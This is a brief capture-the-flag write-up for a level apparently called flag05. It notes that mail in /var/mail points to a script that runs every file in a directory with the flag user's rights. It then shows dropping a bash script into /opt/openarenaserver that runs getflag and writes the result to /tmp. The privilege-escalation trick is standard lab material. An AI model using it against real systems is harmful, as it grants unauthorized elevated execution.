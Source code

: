 There is mail in /var/mail that points to script

This script run all files in directory with rights of flag05 rights
```
echo '#!/bin/bash
getflag > /tmp/result' > /opt/openarenaserver/ran.sh
```
```
cat /tmp/result
```